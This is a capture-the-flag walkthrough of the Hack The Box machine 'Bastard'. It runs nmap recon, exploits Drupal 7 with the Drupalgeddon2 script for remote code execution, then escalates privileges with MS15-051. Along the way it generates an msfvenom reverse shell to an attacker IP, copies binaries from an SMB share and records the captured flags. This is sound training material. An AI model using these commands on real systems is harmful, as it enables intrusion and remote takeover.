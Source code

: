 #Drupal #MS15-051

# Reconnaissance
```bash
# Automatic tools
# nmapAutomator (https://github.com/21y4d/nmapAutomator)
cd /usr/local/bin/
sudo ./nmapAutomator.sh --host 10.10.10.9 --type All
# Manually
nmap -sV -sC -A 10.10.10.9 -Pn 
```

```txt
---------------------Starting Script Scan-----------------------
                                            
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Running Vuln scan on all ports
This may take a while, depending on the number of detected services..                                                                                                           
                                                                                                                                                                                


PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.10.9
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://10.10.10.9:80/
|     Form id: user-login-form
|     Form action: /node?destination=node
|     
|     Path: http://10.10.10.9:80/user/password
|     Form id: user-pass
|     Form action: /user/password
|     
|     Path: http://10.10.10.9:80/user/register
|     Form id: user-register-form
|     Form action: /user/register
|     
|     Path: http://10.10.10.9:80/node?destination=node
|     Form id: user-login-form
|     Form action: /node?destination=node
|     
|     Path: http://10.10.10.9:80/user/
|     Form id: user-login
|     Form action: /user/
|     
|     Path: http://10.10.10.9:80/user
|     Form id: user-login
|_    Form action: /user
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Microsoft-IIS/7.5
|_http-vuln-cve2014-3704: ERROR: Script execution failed (use -d to debug)
| vulners: 
|   cpe:/a:microsoft:internet_information_server:7.5: 
|       VERACODE:34570  4.0     https://vulners.com/veracode/VERACODE:34570
|_      VERACODE:31557  4.0     https://vulners.com/veracode/VERACODE:31557
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

# Enumeration
## Enumerate on 80
First we view the http page of this site:
```bash
firefox http://10.10.10.9
```

we will know it is running Drupal 7.

![[Bastard-01.png]]

we will find a user login page on this site, and try admin/admin admin/password but fail.

with nmap we will know there are some folder which could be accessed. So we try use gobuster to find anything.

```bash
gobuster dir -e -u http://10.10.10.9/ -w /usr/share/wordlists/dirb/big.txt -t 20
```

And we will find these page is forbidden to access.

![[Bastard-02.png]]

# Exploitation
https://0xdf.gitlab.io/2019/03/12/htb-bastard.html

Because nmap shows us the /CHANGELOG.txt , let's check the contents
```bash
# check the Drupal version
curl -s http://10.10.10.9/CHANGELOG.txt | head
# we will find the version of Drupal
Drupal 7.54, 2017-02-01
# searchsploit
searchsploit Drupal 7
```
![[Bastard-03.png]]


### Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution

```bash
# we will select Drupalgeddon2' Remote Code Execution (PoC)
searchsploit -m 44449
# install ruby required highline
sudo gem install highline
# run the script
ruby 44449.rb http://10.10.10.9/
```

![[Bastard-04.png]]

Okay, Target appear to be vulnerable for 44449.rb , and we could get direct OS commands execution.

![[Bastard-05.png]]

```bash
# we will find it is a windows machine
whoami
hostname
# Let's get systeminfo and save it in local systeminfo.txt
systeminfo
vim systeminfo.txt
```

![[Bastard-07.png]]

I ran `systeminfo` and noticed that there’s no service path or hotfixes applied to this box, and we try to get user flag 

```bash
type C:\Users\dimitris\Desktop\user.txt
# flag
baf51b39dc4648c0303742d08cc65c9b
```

![[Bastard-06.png]]

# Privilege Escalation
## PrivEsc by Windows-exploit-suggester
```bash
# we will use windows exploit suggester
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
cd Windows-Exploit-Suggester
python windows-exploit-suggester.py --update
# run the check module
python2.7 windows-exploit-suggester.py --database 2022-06-19-mssb.xls --systeminfo systeminfo.txt
```

```txt
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
```
![[Bastard-08.png]]

seems like we get several privilege escalation exploit from windows-exploit-suggester python script. I like [this](https://github.com/51x/WHP) reference for finding Windows Exploits. MS15-051 jumps out as one I’ve used successfully before.

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051

```bash
# download binary from github
https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip
```
```bash
# we will build SMB share on kali
https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py
# download this script to HacktheBox folder
git clone https://github.com/SecureAuthCorp/impacket/ 
# create SMB server
sudo python3 /home/kali/Desktop/HackTheBox/impacket/examples/smbserver.py ROPNOP /home/kali/Desktop/HackTheBox/Bastard/Windows-Exploit-Suggester
```

![[Bastard-09.png]]


```bash
# create a new listener
nc -vlp 443
# build up a another normal shell
# create a new cmd shell binary
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f exe -o shell.exe
```


```bash
# try run ms15-051 by smb
\\10.10.14.14\ROPNOP\ms15-051x64.exe "whoami"
# copy file
copy \\10.10.14.14\ROPNOP\ms15-051x64.exe .
copy \\10.10.14.14\ROPNOP\shell.exe .
# run SMB share to create a reverse shell connection
ms15-051x64.exe "shell.exe"
```
![[Bastard-11.png]]
![[Bastard-12.png]]

Excellent! we will get a root reverse shell on our 443 port:

![[Bastard-13.png]]

```bash
# check the shell
whoami
hostname
# print root flag
type C:\Users\Administrator\desktop\root.txt
# flag
d726c801e5a43df8410efaf2b3263acb
```

![[Bastard-14.png]]
